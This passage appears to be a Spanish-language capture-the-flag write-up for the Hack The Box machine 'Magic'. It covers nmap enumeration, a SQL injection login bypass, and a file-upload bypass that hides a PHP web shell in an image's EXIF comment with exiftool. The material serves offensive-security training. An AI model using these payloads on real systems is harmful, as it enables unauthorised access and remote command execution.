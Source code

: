El output de nmap es el siguiente:

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Magic]           
└──╼ $nmap -sC -sV -p22,80 magic.htb -oN targeted.txt   
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-17 11:56 EDT

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Algunos de los puertos que están abiertos corresponde a los siguientes servicios:

- `Puerto 22 (SSH Secure Shell):` sirve para acceder de manera remota a máquinas de manera segura.
- `Puerto 80 (HTTP):` se utiliza para la navegación web de forma no segura.

### Enumeración HTTP

Revisando el sitio web, encontramos un link de `login` que nos redirecciona a la página `login.php` donde está en campo de usuario y contraseña. Lo primero que hacemos es revisar si es vulnerable a inyección de código SQL y efectivamente nos sirve. El comando utilizado es el siguiente

```sql
Username: 'or''='
Password: 'or''='
```




## Explotación

Una vez que introducimos los comandos anteriores nos redirecciona a la página `upload.php` y nos permite subir una imagen. Lo primero que intentamos es subir un archivo `.php` pero no funciona. Buscando en internet cómo hacer bypass para subir archivos en páginas web y encontramos que usando la herramienta `exiftool` podemos  manipular imágenes así que vamos a esconder un payload en la imagen de la siguiente manera

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' imagen.jpeg 
    1 image files updated                                                                                                              
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #mv imagen.jpeg imagen.php.jpeg
```

